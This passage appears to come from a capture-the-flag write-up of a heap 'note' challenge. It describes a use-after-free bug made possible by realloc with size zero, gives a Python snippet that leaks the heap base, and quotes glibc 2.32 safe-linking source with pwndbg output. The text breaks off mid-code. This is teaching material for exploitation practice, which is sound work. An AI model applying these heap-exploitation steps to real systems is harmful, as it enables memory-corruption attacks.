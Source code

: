 
It's a typical note challenge structure. We have an array of 10 notes of size 0-0x78. We can edit or show note's content. `edit()` is more noticable that implemented using `realloc()`, and input `size` can be 0 so we `free()` chunk, but pointer is not cleared after `free()`. So in summary we can use `edit()` to:

- Allocate new chunk for empty note
- Allocate new bigger chunk for smaller note. 
- Edit note's content
- **Free chunk, with pointer remained**

## Leak heap base

We can abuse the above finding to leak heap base by freeing a chunk that another idx point to. 

```python
# leak heap base
edit(0, 0x60, b'a')
edit(0, 0)
edit(1, 0x60, b'a')
edit(0, 0)
list()
```

## Glibc-2.32's Safe Linking

https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/

Note that what we leaked is an encrypted form of chunk's fd:

```c
pwndbg> tel &mlist
00:0000│  0x558f84585040 (mlist) ◂— 0x0
01:0008│  0x558f84585048 (mlist+8) —▸ 0x558f84b632a0 ◂— 0x558f84b63
02:0010│  0x558f84585050 (mlist+16) ◂— 0x60 /* '`' */
03:0018│  0x558f84585058 (mlist+24) —▸ 0x558f84b632a0 ◂— 0x558f84b63
04:0020│  0x558f84585060 (mlist+32) ◂— 0x0
... ↓     3 skipped
```

This is because of glibc-2.32's safe linking.

Safe linking is a security mechanism to protect `malloc()`'s single-linked lists from tampering by attacker.

In this case we encounter this protection when allocate and free tcache chunk

```c
/* Caller must ensure that we know tc_idx is valid and there's room
   for more chunks.  */
static __always_inline void
tcache_put (mchunkptr chunk, size_t tc_idx)
{
  tcache_entry *e = (tcache_entry *) chunk2mem (chunk);

  /* Mark this chunk as "in the tcache" so the test in _int_free will
     detect a double free.  */
  e->key = tcache_key;

  e->next = PROTECT_PTR (&e->next, tcache->entries[tc_idx]);
  tcache->entries[tc_idx] = e;
  ++(tcache->counts[tc_idx]);
}

/* Caller must ensure that we know tc_idx is valid and there's
   available chunks to remove.  */
static __always_inline void *
```